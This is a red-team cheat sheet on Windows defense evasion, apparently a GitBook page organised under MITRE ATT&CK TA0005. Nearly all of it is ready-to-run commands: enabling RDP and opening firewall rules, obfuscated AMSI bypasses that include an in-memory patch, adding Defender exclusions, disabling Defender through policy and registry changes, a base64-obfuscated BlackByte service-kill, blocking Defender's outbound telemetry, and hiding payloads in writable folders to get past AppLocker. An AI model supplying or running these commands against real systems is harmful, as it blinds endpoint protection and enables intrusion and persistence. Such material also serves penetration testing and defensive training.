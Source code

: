 ```yaml
---
description: >-
  The adversary is trying to avoid being detected.
  https://attack.mitre.org/tactics/TA0005/
---
```


# Defense Evasion

## Firewall Modification

### Allowing RDP

PowerShell

{% code overflow="wrap" %}
```powershell
Set-itemproperty 'HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server\' -Name "fDenyTSConnections" -value 0
Set-ItemProperty 'HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp\' -Name "UserAuthentication" -value 1
Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
```
{% endcode %}

Windows Commands

{% code overflow="wrap" %}
```powershell
reg add "hklm\system\currentControlSet\Control\Terminal Server" /v "AllowTSConnections" /t REG_DWORD /d 0x1 /f
reg add "hklm\system\currentControlSet\Control\Terminal Server" /v "fDenyTSConnections" /t REG_DWORD /d 0x0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fAllowToGetHelp /t REG_DWORD /d 1 /f
netsh advfirewall set rule group="remote administration" new enable="yes"
netsh advfirewall firewall set rule group="remote administration" new enable=yes
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes profile=domain
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes profile=private
netsh firewall add portopening TCP 3389 "Remote Desktop"
netsh firewall set service RemoteDesktop enable
netsh firewall set service RemoteDesktop enable profile=ALL
netsh firewall set service RemoteAdmin enable
sc config TermService start= auto
net start Termservice
```
{% endcode %}

## AMSI Bypasses

A classic resource: [https://amsi.fail/](https://amsi.fail/)

{% code overflow="wrap" %}
```powershell
[Ref].Assembly.GetType('System.Management.Automation.Ams'+'iUtils').GetField('am'+'siInitFailed','NonPu'+'blic,Static').SetValue($null,$true)
```
{% endcode %}

{% code overflow="wrap" %}
```powershell
SeT-Item ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ( TYpE ) ; ( Get-varIABLE ( ('1Q'+'2U') +'zX' ) -VaL )."AssEmbly"."GETTYPe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."getfiElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sETVaLUE"( ${nULl},${tRuE} );
```
{% endcode %}

{% code overflow="wrap" %}
```powershell
$fzxhw = @" using System; using System.Runtime.InteropServices; public class fzxhw { [DllImport("kernel32")] public static extern IntPtr GetProcAddress(IntPtr hModule, string procName); [DllImport("kernel32")] public static extern IntPtr LoadLibrary(string name); [DllImport("kernel32")] public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr vilqbn, uint flNewProtect, out uint lpflOldProtect); } "@
Add-Type $fzxhw
$jvdnuxs = [fzxhw]::LoadLibrary("$(('ämsî'+'.dll').NORMALiZE(chAr+ChaR+ChAr+CHar+cHar) -replace ChAr+ChAR+cHAR+ChaR+chAr+CHar)") $ikbtnz = [fzxhw]::GetProcAddress($jvdnuxs, "$(cHAR+Char+chaR+cHAr+ChAr+Char+cHaR+chAR+chAr+cHAr+CHar+cHaR+CHaR+CHar)") $p = 0 [fzxhw]::VirtualProtect($ikbtnz, [uint32]5, 0x40, [ref]$p) $ovsj = "0xB8" $zahw = "0x57" $cfuu = "0x00" $ukxu = "0x07" $salu = "0x80" $yrkl = "0xC3" $xrnun = [Byte[]] ($ovsj,$zahw,$cfuu,$ukxu,+$salu,+$yrkl) [System.Runtime.InteropServices.Marshal]::Copy($xrnun, 0, $ikbtnz, 6)
```
{% endcode %}

## Microsoft Defender for Endpoint

Note: Events are cached on the system, so as soon as traffic is established again, the floodgates will open.

### Getting Current Status

{% code overflow="wrap" %}
```powershell
Get-MpComputerStatus
```
{% endcode %}

### Adding an Exclusion

{% code overflow="wrap" %}
```powershell
Add-MpPreference -ExclusionPath 'C:\windows\temp'
```
{% endcode %}

### Scanning a File with Defender

{% code overflow="wrap" %}
```powershell
C:\Program Files\Windows Defender\MpCmdRun.exe -Scan -ScanType 3 -DisableRemediation -File 'C:\stager.exe'
```
{% endcode %}

### Disabling Defender

{% code overflow="wrap" %}
```powershell
taskkill  /F /IM MSASCuiL.exe

Set-MpPreference -DisableIntrusionPreventionSystem $true `
-DisableRealtimeMonitoring $true -DisableScriptScanning $true `
-EnableControlledFolderAccess Disabled -EnableNetworkProtection AuditMode `
-Force -MAPSReporting Disabled -SubmitSamplesConsent NeverSend

REG ADD "HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v "HideSCAHealth" /t REG_DWORD /d 0x1 /f
REG ADD "HKCU\Software\Policies\Microsoft\Windows\Explorer" /v "DisableNotificationCenter" /t REG_DWORD /d 0x1 /f
REG DELETE "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v "SecurityHealth" /f
REG ADD "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v "DisableAntiSpyware" /t REG_DWORD /d 0x1 /f
REG ADD "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v "AllowFastServiceStartup" /t REG_DWORD /d 0x0 /f
REG ADD "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v "ServiceKeepAlive" /t REG_DWORD /d 0x0 /f
REG ADD "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Real-Time Protection" /v "DisableIOAVProtection" /t REG_DWORD /d 0x1 /f
REG ADD "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Real-Time Protection" /v "DisableRealtimeMonitoring" /t REG_DWORD /d 0x1 /f
REG ADD "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Spynet" /v "DisableBlockAtFirstSeen" /t REG_DWORD /d 0x1 /f
REG ADD "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Spynet" /v "LocalSettingOverrideSpynetReporting" /t REG_DWORD /d 0x0 /f
REG ADD "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Spynet" /v "SubmitSamplesConsent" /t REG_DWORD /d 0x2 /f
REG ADD "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\UX Configuration" /v "NotificationSuppress" /t REG_DWORD /d 0x1 /f
```
{% endcode %}

### Disable Defender on Reboot\\

A BlackByte TTP

{% code overflow="wrap" %}
```powershell
powershell -command "$x = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('VwBpA'+'G4ARA B'+'lAGYA'+'ZQB'+'uAG'+'QA'));Stop-Service -Name $x;Set-Service -StartupType Disabled $x"
```
{% endcode %}

### Reviewing AppLocker Policies

{% code overflow="wrap" %}
```powershell
$a = Get-ApplockerPolicy -effective; $a.rulecollections;
```
{% endcode %}

You can also review the AppLocker policies by enumerating the Registry manually:

{% code overflow="wrap" %}
```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows Defender\Exclusions" /s
reg query "HKEY_LOCAL_Machine\Software\Policies\Microsoft\Windows\SrpV2" /s
```
{% endcode %}

### Blocking MS Defender Connections

```powershell
New-NetFirewallRule -DisplayName "Block 443 MsMpEng" -Name "Block 443 MsMpEng" -Direction Outbound -Service WinDefend -Enabled True -RemotePort 443 -Protocol TCP -Action Block
New-NetFirewallRule -DisplayName "Block 443 SenseCncProxy" -Name "Block 443 SenseCncProxy" -Direction Outbound -Program "%ProgramFiles%\Windows Defender Advanced Threat Protection\SenseCncProxy.exe" -RemotePort 443 -Protocol TCP -Action Block
New-NetFirewallRule -DisplayName "Block 443 MsSense" -Name "Block 443 MsSense" -Direction Outbound -Program "%ProgramFiles%\Windows Defender Advanced Threat Protection\MsSense.exe" -RemotePort 443 -Protocol TCP -Action Block
```

### **Default Writable Folders for Execution Control Bypass**

Try putting your payload in one of the following directories:

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell">C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys
C:\Windows\System32\spool\drivers\color
<strong>C:\Windows\Tasks
</strong>C:\windows\tracing 
</code></pre>

## PowerShell Execution

### Nested PowerShell Bypass

{% code overflow="wrap" %}
```powershell
powershell.exe -enc [BASE64THIS(powershell.exe -w hidden -c "iex(...)"]>
```
{% endcode %}

### **32-Bit PowerShell Bypass**

PowerShell disabled for you? Try running the 32-bit copy of it:

{% code overflow="wrap" %}
```sh
C:\windows\syswow64\windowspowershell\v1.0\powershell whoami
```
{% endcode %}

